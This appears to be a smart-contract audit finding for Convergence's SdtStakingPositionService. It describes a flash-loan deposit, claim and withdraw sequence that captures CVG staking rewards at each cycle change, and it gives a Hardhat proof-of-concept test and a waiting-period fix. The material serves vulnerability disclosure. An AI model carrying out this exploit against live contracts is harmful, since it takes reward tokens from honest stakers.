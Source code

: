 Recumbent Shamrock Marmot

high

# Attacker can potentially own upto 99% of staking vault share and claim all CVG token rewards using flashloan at every cycle

## Summary
At the end of every cycle(right before the `CvgRewards::writeStakingRewards()` call) one can deposit in `SdtStakingPositionService::deposit()` and immediately after the `writeStakingRewards()` call he/she can claim CVG rewards and withdraw the position from `SdtStakingPositionService::withdraw()`. This opened up an opportunity to flash loan and deposit the asset before the `writeStakingRewards()` which allows the attacker to potentially own up to 99% of the vault based on the loan and already staked amount. And, make a claim of CVG rewards then withdraw the asset and repay the loan.

## Vulnerability Detail
One can claim CVG rewards `SdtStakingPositionService::claimCvgRewards()` only in the 
 `nextCycle` https://github.com/sherlock-audit/2023-11-convergence/blob/main/sherlock-cvg/contracts/Staking/StakeDAO/SdtStakingPositionService.sol#L687  after deposit. So, anyone can deposit right before the staking cycle change and claim a CVG reward immediately after a cycle change which is triggered by `CvgRewards::writeStakingRewards()`. Additionally, this is an external function and anyone can call it.  So, an attacker can take advantage of it and create an attacking contract that will execute the following steps to own the majority of shares of a vault and claim CVG.

1. The attacker requests and gets a flash loan of an asset to deposit.
2. Attacker deposits the asset from `SdtStakingPositionService::deposit()`
    - Now, an attacker owns the majority of shares of a vault depending on the loan amount.
3. Initiate `CvgRewards::writeStakingRewards()`, which increases the staking cycle count.
4. Claim CVG rewards from `SdtStakingPositionService::claimCvgRewards()`
5. Withdraw the asset that was deposited.
6. Repay the flash loan.

## Impact
An attacker can claim more CVG Rewards at every cycle practically without staking. It results in a huge percentage of CVG minted to an attacker and in grievances of innocent staker’s reward share.

## Code Snippet
```js
    it('should deposit, claim and withdraw', async() => {

        //Go to cycle 2
        await increaseCvgCycle(contractsUsers, 1);

        //The end of cycle 2 and beginning of cycle 3
        await time.increase(7 * 86400);

        //1. Get a flash loan

        //2. Deposit the asset
        await sdCRVStaking.connect(user1).deposit(0, ethers.parseEther("10"), ethers.ZeroAddress);

        //3. Call writeStakingRewards that will checkpoint and distribute CVG reward.
        await (await contractsUsers.contracts.rewards.cvgRewards.connect(user1).writeStakingRewards()).wait();
        await (await contractsUsers.contracts.rewards.cvgRewards.connect(user1).writeStakingRewards()).wait();
        await (await contractsUsers.contracts.rewards.cvgRewards.connect(user1).writeStakingRewards()).wait();
        await (await contractsUsers.contracts.rewards.cvgRewards.connect(user1).writeStakingRewards()).wait();


        console.log(await cvg.balanceOf(await user1.getAddress())); //0
        //4. Claim the CVG reward
        await sdCRVStaking.connect(user1).claimCvgRewards(1);

        console.log(await cvg.balanceOf(await user1.getAddress())); //24704026442307693484766

        //5. Withdraw the deposited asset.
        await sdCRVStaking.connect(user1).withdraw(1, ethers.parseEther("10"));

        //6. Repay the loan.
    });
```

The above code can be tested in `claimMultipleCvgRewards.spec.ts` file

## Tool used

Manual Review

## Recommendation
The mitigation step is to introduce a waiting period to claim the CVG reward after the deposit. The waiting period can be as simple as a 5 or 10-minute window.
